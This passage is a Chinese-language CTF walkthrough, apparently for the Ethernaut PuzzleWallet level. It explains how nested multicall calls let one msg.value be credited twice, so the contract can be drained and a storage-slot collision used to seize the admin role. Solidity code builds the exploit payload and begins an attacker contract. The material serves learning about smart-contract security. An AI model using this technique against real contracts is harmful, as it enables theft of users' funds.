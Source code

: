 编写合约的人已经意识到msg.value在循环中可能会被利用进行多次deposit，但是他考虑还是欠佳，这里还是存在漏洞的：bytes数组允许执行多个方法，那么我们可以这么操作：

- bytes[0]：调用`deposit()`，这时就记录下来`deposit()`已经调用过，因此后续不可以再在这个上下文执行deposit()，注意是这个上下文
- bytes[1]：调用`multicall()`，也就是说我们在调用`multicall()`的时候，再次调用`multicall()`。这就是神奇的地方了：当`address(this).delegatecall(data[i]);`：执行到这里的时候，会打开一下新的上下文，此时那个上下文还没调用过`deposit()`。

为此我们构造bytes数组的内容：

- bytes[0]：其实这里无论是encode，encodePacked还是怎么样都可以，因为是只取高4字节数据，并且是动态变长数组

```solidity
abi.encodeWithSelector(level.deposit.selector);
```

- bytes[1]：为什么data[1]第二个参数要写成deposit_data，而不一样写成`level.deposit.selector`的形式呢？因为在`level.multicall.selector`在解析为函数选择器来进行匹配进行再次`multicall()`执行的时候，第二个参数的内容就会作为`multicall()`的形参，因此也符合abi编码规范。而这个规范不是说直接abi.encodeWithSelector就可以的，要包装成一个bytes[]才行。因此需要传入一个bytes[]，也就是deposit_data。

```solidity
bytes[] memory deposit_data = new bytes[](1);
deposit_data[0] = abi.encodeWithSelector(level.deposit.selector);

bytes[] memory data = new bytes[](2);
// 设置bytes[0]
data[0] = deposit_data[0]; 
// 设置bytes[1]
data[1] = abi.encodeWithSelector(level.multicall.selector,deposit_data);
```

假设我们deposit金额为0.001ether。构造好之后，攻击的逻辑是：第一次调用`deposit()`时记录了balances[msg.sender]增加了0.001ether。第二次调用deposit的时候，一份msg.value重复使用，balances[msg.sender]又增加了0.001ether。此时结果为：合约中拥有题目部署时候的0.001ether+我们存入的0.001ether，即0.002ether。

此时我们就可以调用execute()取出0.002ether，使得合约余额为0，可以调用setMaxBalance设置maxBalance的值，也就是可以设置slot 1所在变量admin的值，设置为我们的EOA地址即可。

```solidity
    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }
    
    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }
```

## 解题

```solidity
pragma solidity ^0.8.0;

interface IPuzzleProxy  {
    function admin() external view returns(address);
    function proposeNewAdmin(address) external;
    function addToWhitelist(address) external;
    function deposit() external payable ;
    function multicall(bytes[] calldata) external payable ;
    function execute(address,uint256,bytes calldata) external payable ;
    function setMaxBalance(uint256) external; 
}

contract attacker{
	// msg.value = 1000000000000000 wei = 0.001 ether
    constructor(IPuzzleProxy level) payable {
```